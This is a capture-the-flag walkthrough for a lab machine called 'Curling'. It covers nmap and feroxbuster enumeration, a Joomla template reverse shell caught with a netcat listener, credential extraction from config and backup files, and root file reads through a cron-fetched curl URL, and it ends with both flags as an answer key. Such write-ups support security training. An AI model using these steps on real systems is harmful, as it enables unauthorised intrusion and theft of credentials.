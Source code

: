 # Curling - Easy

```shell
sudo vim /etc/hosts
#add curling.htb

nmap -T4 -p- -A -Pn -v curling.htb

feroxbuster -u http://curling.htb -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,403,404,405,500 --silent

nc -nvlp 4444
#activate Joomla reverse shell
#by visiting link, we get shell

id
#www-data

python3 -c 'import pty;pty.spawn("/bin/bash")'

ls -la /var/www/html

cat /var/www/html/configuration.php
#contains mysql creds

ls -la /opt

ls -la /home

ls -la /home/floris

cat /home/floris/password_backup
#file data in hexdump form
#check magic numbers
#convert to bz2 file

xxd -r password_backup > testfile.bz2

bzip2 -dk testfile.bz2
#extracts testfile

file testfile
#gzip

mv testfile testfile.gz

gzip -dk testfile.gz

file testfile
#bzip2 file

bzip2 -dk testfile

file testfile.out
#posix tar archive

tar -xvf testfile.out
#gives password

cat password.txt
#contains password

ssh floris@curling.htb

#get user flag

ls -la

cd admin-area

ls -la

cat input

cat report
#files are modified every minute
#the url in input is fetched in report

vim input
#modify to fetch /administrator

cat report
#it is updated

vim input
#modify url value to "file:///root/root.txt"

#we get root flag
cat report
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.29

* The webpage on port 80 leads to a blog page running on some CMS.

* With the help of ```cmseek```, we find that it is running ```Joomla v3.8.8```

* Checking the blog posts, we can enumerate a possible username "floris"; the first blog also contains the string "curling2018", which could be a possible common password.

* However, login as "admin:curling2018" or "floris:curling2018" does not work, so we can enumerate further for clues.

* Using ```feroxbuster```, we can enumerate the directories for clues.

* Now, this gives us multiple directories such as /components and /cache, but we cannot access them.

* However, one file /secret.txt stands out - this contains a string.

* This string can be decoded from base64 to give us the phrase "Curling2018!" - this could be a password.

* Using this password, we are able to login as 'floris' user in /administrator; giving us access to Joomla Control Panel.

* We can now simply modify the PHP template files and replace it with PHP reverse shell code.

* After saving the content, we can activate reverse shell on our listener by visiting the index.php link or clicking 'Template Preview'.

* We get reverse shell as ```www-data```.

* Now, in the web directory, 'configuration.php' contains creds for ```mysql```.

* Furthermore, in floris' home directory, we can find a file for 'password_backup'.

* This file contains some data in form of hexdump - we can copy it to our machine.

* Now, we can check ```magic numbers``` from this data, in order to figure the extension.

* Searching for the same using the magic number '42 5a 68', we can see that this is for ```.bz2``` files.

* So, we can convert this hexdump to original file using ```xxd``` - this gives us a .bz2 file

* If we extract from this .bz2 file, we get another file in the format of gzip.

* Extracting from the gzip file gives us another bzip2 file.

* When decompressed, the bzip2 file gives us a POSIX tar archive.

* Finally, extracting from the tar archive gives us a .txt file containing a password.

* This password can be used to login as 'floris' via ```SSH```.

* Now, we can check the 'admin-area' folder in home directory - this contains two files, input and report.

* These files are modified every minute, so it is possible they are being constantly updated.

* The input file contains the following content:

```url = "http://127.0.0.1"```

* And the report file contains the code for <http://curling.htb>

* Thus, the input file uses the 'url' value and with ```curl```, it fetches the URL page.

* We can test this by editing the input file to fetch the contents of /administrator page; the report file gets updated.

* So, we can read the root flag using ```curl``` by modifying url value to "file:///root/root.txt"

* We get root flag from the report file in a minute.

```markdown
1. User flag - 516950a94ed9ac926245a3faeec329e1

2. Root flag - e5d0cf3490ce1c37c2a1b0b71ecd502a
```
